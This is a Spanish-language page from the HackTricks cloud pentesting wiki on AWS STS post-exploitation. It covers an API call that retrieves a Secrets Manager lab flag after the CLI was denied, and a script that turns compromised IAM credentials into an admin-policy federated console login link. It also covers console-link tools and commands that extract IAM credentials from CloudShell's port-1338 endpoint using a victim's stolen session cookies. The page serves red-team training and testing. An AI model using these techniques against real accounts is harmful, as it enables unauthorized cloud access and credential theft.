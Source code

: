 # AWS - STS Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## STS

Para más información:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Nuevo Método Diciembre 2024: Eliminar Requisito para Enlace de Consola Web, Mediante Solicitud HTTPS POST Directamente a la API de SecretsManager Obtener Secretos (Sin Enlace de Inicio de Sesión o Consola Web)

Enviado ayer, como PR para el próximo examen (ARTE: ex16x41) sin embargo veo que el PR no se muestra, tal vez se envió mal, intentemos de nuevo:
Usando este método, el requisito de abrir cualquier URL, formatear cualquier enlace de inicio de sesión o incluso usar la CLI / Consola Web se elude por completo.
Entonces, ¿qué hicimos aquí?
Escribí este script que interactúa directamente con la API de AWS Secrets Manager, es absolutamente simple y directo.
Cuando ejecutas el script, envía una solicitud HTTPS POST al endpoint de AWS Secrets Manager
https://secretsmanager.<region>.amazonaws.com/
La solicitud GetSecretValue se envía como parte de la solicitud POST, autenticada con la firma SigV4 (gestionada por boto3).
Secrets Manager Procesa la Solicitud:
AWS valida la solicitud contra las políticas de IAM adjuntas a tu usuario o rol (como sabemos, solo podemos ver el valor secreto como consola web)
Si se permite, el servicio de Secrets Manager devuelve el valor secreto solicitado en la respuesta.
**Demostración POC:**
El comando CLI de AWS para obtener el valor secreto no está funcionando porque el acceso está denegado ->
Sin embargo, en la imagen puedes ver la simplicidad del método para simplemente extraer la bandera directamente al conocer el ID secreto (esto lo enumeramos en una etapa anterior cuando iniciamos sesión con el perfil de usuario)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Nota: Creo que este método se puede usar universalmente dependiendo del escenario si la política lo permite (pero eludir restricciones de políticas que no permiten a través de la CLI)
Así que esto se puede usar cada vez que una política lo permite (como una opción de prueba alternativa)
Nota adicional: curioso sobre otras técnicas que puedes aplicar usando el mismo método de interacción directa con la API del servicio y ahora AWS CLI, para cualquier proceso de elevación de privilegios o post explotación como aquí.
**Código:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Establecer un User-Agent personalizado
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Recuperar el valor secreto directamente a través de la API de secretsmanager
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### De Credenciales IAM a Consola

Si has logrado obtener algunas credenciales IAM, podrías estar interesado en **acceder a la consola web** usando las siguientes herramientas.\
Ten en cuenta que el usuario/rol debe tener el permiso **`sts:GetFederationToken`**.

#### Script personalizado

El siguiente script utilizará el perfil predeterminado y una ubicación de AWS predeterminada (no gov y no cn) para darte una URL firmada que puedes usar para iniciar sesión dentro de la consola web:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Puedes **generar un enlace de consola web** con [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Asegúrate de que el usuario IAM tenga permiso `sts:GetFederationToken`, o proporciona un rol para asumir.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) es una herramienta para almacenar y acceder de forma segura a las credenciales de AWS en un entorno de desarrollo.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
También puedes usar **aws-vault** para obtener una **sesión de consola del navegador**
{% endhint %}

#### De la Consola a las Credenciales de IAM

[**Descubierto originalmente en esta publicación**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Si logras comprometer algún acceso a una consola web (quizás robaste cookies y no pudiste acceder a la carpeta .aws), puedes obtener algunas credenciales de token de IAM para ese usuario a través de **CloudShell**.

CloudShell expone credenciales de IAM a través de un **punto final no documentado en el puerto 1338**. Después de cargar las cookies de sesión de la víctima en tu navegador, puedes navegar a CloudShell y emitir los siguientes comandos para obtener credenciales de IAM.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
